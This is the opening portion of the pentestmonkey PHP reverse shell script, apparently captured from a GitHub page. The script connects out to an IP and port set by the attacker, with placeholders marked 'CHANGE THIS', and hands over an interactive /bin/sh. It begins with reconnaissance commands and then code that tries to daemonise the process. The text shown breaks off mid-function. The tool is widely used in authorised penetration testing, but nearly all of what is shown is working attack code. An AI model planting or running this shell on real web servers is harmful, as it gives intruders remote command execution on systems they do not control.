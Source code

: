 ```php
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

```